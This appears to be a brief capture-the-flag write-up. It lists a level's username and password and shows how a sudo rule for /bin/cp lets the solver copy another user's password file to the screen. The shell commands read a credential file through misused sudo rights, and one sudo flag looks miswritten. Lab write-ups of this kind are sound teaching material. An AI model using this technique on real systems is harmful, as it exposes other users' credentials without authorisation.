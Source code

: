 # username
ariadne
# password
iNgNazuJrmhJKWixktzk
# mission contents
The user arete lets us use cp on her behalf.
# method of solve
We are given `sudo` permissions as the `arete` user with the `/bin/cp` binary
```
sudo -l
find / -group arete 2>/dev/null #find the password file
LFILE=/run/lock/arete_pass.txt
sudo -i arete /bin/cp "$LFILE" /dev/stdout
```
